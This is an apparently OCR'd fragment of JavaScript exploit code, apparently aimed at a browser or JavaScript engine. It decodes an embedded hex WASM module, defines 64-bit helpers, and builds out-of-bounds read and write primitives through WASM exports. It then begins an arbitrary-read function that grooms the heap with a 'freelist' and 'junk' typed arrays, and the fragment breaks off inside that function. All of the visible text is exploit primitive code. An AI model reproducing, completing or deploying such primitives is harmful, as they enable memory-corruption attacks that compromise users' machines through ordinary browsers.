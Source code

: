 ```
  for (var i = 0; i < len; i++) {

    hex = '0x' + wasm_module.substring(i * 2, i * 2 + 2);

    buf[i] = parseInt(hex);

  }

  return buf;

}



function arr_to_u64(arr) {

  return new u64(arr[0], arr[1]);

}



function u64_to_arr(u64, arr) {

  arr[0] = u64.lo;

  arr[1] = u64.hi;

}



function read_oob(off) {

  var lo = wasm.exports.read_u32(off);

  var hi = wasm.exports.read_u32(off + 4);

  return new u64(lo, hi);

}



function write_oob(off, val) {

  wasm.exports.write_u32(off, val.lo);

  wasm.exports.write_u32(off + 4, val.hi);

}



function read(addr) {

  u64_to_arr(addr, freelist);

  var b = new Uint32Array();

  b.buffer;

  junk.push(b);
```